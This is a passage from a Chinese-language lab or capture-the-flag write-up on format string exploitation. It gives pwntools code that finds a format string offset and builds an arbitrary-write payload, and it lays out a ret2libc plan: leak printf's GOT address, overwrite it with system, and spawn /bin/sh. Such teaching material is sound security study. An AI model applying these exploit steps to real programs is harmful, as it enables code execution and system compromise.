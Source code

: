 ```python
p.interactive()
```

![](/assets/images/sec/software/lab1/rop3_remote.png)

## FSB
### demo
这里要利用 pwntools 提供的 fmtstr 相关工具实现自动的任意地址写 payload 构造。首先使用 FmtStr 来爆破 offset，因为程序只有一次输入输出，所以每次测试要新建进程：

```python
def exec_fmt(payload):
    info(f"finding offset... payload = {payload}")
    p = process(elf_path)
    p.sendline(payload)
    res = p.recv()
    info(f"finding offset... res = {res}")
    p.close()
    return res

fsb = FmtStr(exec_fmt)
offset = fsb.offset
```

接下来使用 fmtstr_payload 构造 payload 即可，默认的 write_size 逐字节写入，导致 payload 太长无法全部输入，需要设置其为 short：

```python
var_addr = elf.symbols["var"]
payload = fmtstr_payload(offset, {var_addr: <数据删除>}, write_size="short")
info(f"payload = {payload}, len = {len(payload)}")

p = process(elf_path)
p.sendline(payload)
res = p.recvall()
success(res[res.find(b"var = "):].decode().strip())
```

![](/assets/images/sec/software/lab1/demo.png)

可以看出 FmtStr 得到了 offset 为 6，然后构造了 payload，之后程序中输出的 var 变量的值变成了 <数据删除\> 即学号 <数据删除\>。

### echo
题目进行了三次输入及 printf 输出，除此之外没有后门什么的，给了 libc.&zwnj;so，要实现 ret2libc 攻击。

只有三次输入输出机会，所以这三次的目标分别是：

1. 通过任意地址读读取 printf GOT 表中地址
    - 这里就是 printf 的实际加载地址
    - 由此可以根据 libc.&zwnj;so 中相对位置计算出 system 的加载地址
2. 通过任意地址写将 printf GOT 表中地址覆盖为 system 的地址
    - 这时下一次调用 printf 就会执行 system
3. 输入 /bin/sh，触发 system("/bin/sh")
